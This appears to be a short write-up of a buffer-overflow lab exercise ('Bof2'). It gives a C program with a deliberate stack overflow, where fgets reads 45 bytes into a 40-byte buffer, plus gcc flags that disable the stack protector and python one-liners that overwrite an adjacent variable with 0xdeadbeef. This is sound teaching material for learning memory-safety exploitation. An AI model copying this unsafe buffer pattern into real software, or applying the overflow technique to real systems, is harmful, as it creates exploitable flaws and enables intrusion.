



## Bof2
Source Code:
```
#include <stdlib.h>
#include <stdio.h>

void main(int argc, char *argv[])
{
  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] 0x%x\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah! You win!\n");
 
   }
}
```
Complie by gcc:
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2 `

Run program to have output "You are on the right way":
`echo $(python -c "print('a'*41)") | ./bof2.out  `

Run program to have output "Yeah! You win!":
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`
